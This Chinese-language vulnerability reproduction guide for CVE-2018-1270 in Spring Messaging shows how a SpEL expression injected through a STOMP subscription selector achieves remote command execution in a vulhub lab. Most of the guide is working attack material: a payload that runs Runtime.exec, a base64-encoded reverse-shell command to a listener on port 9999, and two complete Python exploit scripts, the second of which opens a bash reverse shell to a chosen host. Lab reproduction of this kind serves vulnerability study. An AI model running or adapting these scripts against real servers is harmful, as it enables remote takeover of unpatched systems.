



Spring Messaging 远程命令执行漏洞 CVE-2018-1270¶
漏洞描述¶
spring messaging 为 spring 框架提供消息支持，其上层协议是 STOMP，底层通信基于 SockJS，
在 spring messaging 中，其允许客户端订阅消息，并使用 selector 过滤消息。selector 用 SpEL 表达式编写，并使用 StandardEvaluationContext 解析，造成命令执行漏洞。
参考链接：
- https://pivotal.io/security/cve-2018-1270
- https://xz.aliyun.com/t/2252
- https://cert.360.cn/warning/detail?id=3efa573a1116c8e6eed3b47f78723f12
- https://github.com/CaledoniaProject/CVE-2018-1270
环境搭建¶
执行如下命令启动漏洞环境：
docker-compose up -d
环境启动后，访问 http://your-ip:8080 即可看到一个 Web 页面。
漏洞复现¶
网上大部分文章都说 spring messaging 是基于 websocket 通信，其实不然。spring messaging 是基于 sockjs（可以理解为一个通信协议），而 sockjs 适配多种浏览器：现代浏览器中使用 websocket 通信，老式浏览器中使用 ajax 通信。
连接后端服务器的流程，可以理解为：
所以我们可以使用 http 来复现漏洞，称之为“降维打击”。
我编写了一个简单的 POC 脚本 exploit.py（需要用 python3.6 执行），因为该漏洞是订阅的时候插入 SpEL 表达式，而对方向这个订阅发送消息时才会触发，所以我们需要指定的信息有：
- 基础地址，在 vulhub 中为
http://your-ip:8080/gs-guide-websocket - 待执行的 SpEL 表达式，如
T(java.lang.Runtime).getRuntime().exec('touch /tmp/success') - 某一个订阅的地址，如 vulhub 中为：
/topic/greetings - 如何触发这个订阅，即如何让后端向这个订阅发送消息。在 vulhub 中，我们向
/app/hello发送一个包含 name 的 json，即可触发这个事件。当然在实战中就不同了，所以这个 poc 并不具有通用性。
根据你自己的需求修改 POC。如果是 vulhub 环境，你只需修改 1 中的 url 即可。
修改 2 中的命令为 touch /tmp/awesome_poc，执行：

命令执行成功，文件 awesome_poc 被成功创建：

尝试反弹 shell，构造命令：
T(java.lang.Runtime).getRuntime().exec('bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjE3NC4xMjgvOTk5OSAwPiYxCgo=}|{base64,-d}|{bash,-i}'
监听 9999 端口，成功接收反弹 shell：

漏洞 POC¶
#!/usr/bin/env python3
import requests
import random
import string
import time
import threading
import logging
import sys
import json
logging.basicConfig(stream=sys.stdout, level=logging.INFO)
def random_str(length):
letters = string.ascii_lowercase + string.digits
return ''.join(random.choice(letters) for c in range(length))
class SockJS(threading.Thread):
def __init__(self, url, *args, **kwargs):
super().__init__(*args, **kwargs)
self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
self.daemon = True
self.session = requests.session()
self.session.headers = {
'Referer': url,
'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
}
self.t = int(time.time()*1000)
def run(self):
url = f'{self.base}/htmlfile?c=_jp.vulhub'
response = self.session.get(url, stream=True)
for line in response.iter_lines():
time.sleep(0.5)
def send(self, command, headers, body=''):
data = [command.upper(), '\n']
data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))
data.append('\n\n')
data.append(body)
data.append('\x00')
data = json.dumps([''.join(data)])
response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
if response.status_code != 204:
logging.info(f"send '{command}' data error.")
else:
logging.info(f"send '{command}' data success.")
def __del__(self):
self.session.close()
sockjs = SockJS('http://your-ip:8080/gs-guide-websocket')
sockjs.start()
time.sleep(1)
sockjs.send('connect', {
'accept-version': '1.1,1.0',
'heart-beat': '10000,10000'
})
sockjs.send('subscribe', {
'selector': "T(java.lang.Runtime).getRuntime().exec('touch /tmp/success')",
'id': 'sub-0',
'destination': '/topic/greetings'
})
data = json.dumps({'name': 'vulhub'})
sockjs.send('send', {
'content-length': len(data),
'destination': '/app/hello'
}, data)
改动后反弹 shell poc：
#!/usr/bin/env python3
from asyncio.constants import LOG_THRESHOLD_FOR_CONNLOST_WRITES
import requests
import random
import string
import time
import threading
import logging
import sys
import json
import base64
logging.basicConfig(stream=sys.stdout, level=logging.INFO)
def random_str(length):
letters = string.ascii_lowercase + string.digits
return ''.join(random.choice(letters) for c in range(length))
class SockJS(threading.Thread):
def __init__(self, url, *args, **kwargs):
super().__init__(*args, **kwargs)
self.base = f'{url}/{random.randint(0, 1000)}/{random_str(8)}'
self.daemon = True
self.session = requests.session()
self.session.headers = {
'Referer': url,
'User-Agent': 'Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Trident/5.0)'
}
self.t = int(time.time()*1000)
def run(self):
url = f'{self.base}/htmlfile?c=_jp.vulhub'
response = self.session.get(url, stream=True)
for line in response.iter_lines():
time.sleep(0.5)
def send(self, command, headers, body=''):
data = [command.upper(), '\n']
data.append('\n'.join([f'{k}:{v}' for k, v in headers.items()]))
data.append('\n\n')
data.append(body)
data.append('\x00')
data = json.dumps([''.join(data)])
response = self.session.post(f'{self.base}/xhr_send?t={self.t}', data=data)
if response.status_code != 204:
logging.info(f"send '{command}' data error.")
else:
logging.info(f"send '{command}' data success.")
def __del__(self):
self.session.close()
def main():
sockjs = SockJS(url)
sockjs.start()
time.sleep(1)
sockjs.send('connect', {
'accept-version': '1.1,1.0',
'heart-beat': '10000,10000'
})
sockjs.send('subscribe', {
'selector': "T(java.lang.Runtime).getRuntime().exec('bash -c {echo," + command.decode('utf-8') + "}|{base64,-d}|{bash,-i}')",
'id': 'sub-0',
'destination': subscribe_dest
})
data = json.dumps({'name': 'vulhub'})
sockjs.send('send', {
'content-length': len(data),
'destination': send_dest
}, data)
if __name__ == "__main__":
url = 'http://1:8080/gs-guide-websocket'
subscribe_dest = '/topic/greetings'
send_dest = '/app/hello'
lhost = '127.0.0.1'
lport = '9999'
command = base64.b64encode('bash -i >& /dev/tcp/{}/{} 0>&1'.format(lhost,lport).encode('utf-8'))
main()